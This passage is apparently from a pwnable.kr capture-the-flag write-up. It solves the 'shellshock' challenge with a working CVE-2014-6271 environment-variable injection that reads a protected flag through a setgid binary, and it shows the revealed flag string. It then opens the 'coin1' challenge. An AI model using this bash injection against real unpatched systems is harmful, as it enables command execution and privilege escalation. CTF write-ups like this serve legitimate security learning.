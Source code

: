
## 0x0A shellshock
```
Mommy, there was a shocking news about bash.
I bet you already know, but lets just make it sure :)


ssh shellshock@pwnable.kr -p2222 (pw:guest)
```
It's shellshock bug. Bash Code Injection Vulnerability via Specially Crafted Environment Variables(CVE-2014-6271)
```
shellshock@ubuntu:~$ ls -al
total 976
drwxr-x---  4 root shellshock    4096 Oct 12  2014 .
dr-xr-xr-x 58 root root          4096 Feb  5 08:35 ..
-r-xr-xr-x  1 root shellshock2 959120 Oct 12  2014 bash
d---------  2 root root          4096 Oct 12  2014 .bash_history
-r--r-----  1 root shellshock2     47 Oct 12  2014 flag
dr-xr-xr-x  2 root root          4096 Oct 12  2014 .irssi
-r-xr-sr-x  1 root shellshock2   8547 Oct 12  2014 shellshock
-rw-r-----  1 root shellshock     188 Oct 12  2014 shellshock.c
```
We can see that `shellshock` and `flag`'s GROUP is `shellshock2`, but us current GROUP is shellshock. By reviewing `shellshock.c` source code, we can exploit it to set UID and GID, then run `cat flag`.
The source code `shellshock.c`:
```
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```
Now, let's exploit it.
```
shellshock@ubuntu:~$ env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
shellshock@ubuntu:~$
```


## 0x0B coin1
```
Mommy, I wanna play a game!
(if your network response time is too slow, try nc 0 9007 inside pwnable.kr server)

Running at : nc pwnable.kr 9007
```
```
	---------------------------------------------------
	-              Shall we play a game?              -
	---------------------------------------------------

	You have given some gold coins in your hand
	however, there is one counterfeit coin among them
	counterfeit coin looks exactly same as real coin
	however, its weight is different from real one
	real coin weighs 10, counterfeit coin weighes 9
	help me to find the counterfeit coin with a scale
	if you find 100 counterfeit coins, you will get reward :)
	FYI, you have 30 seconds.
```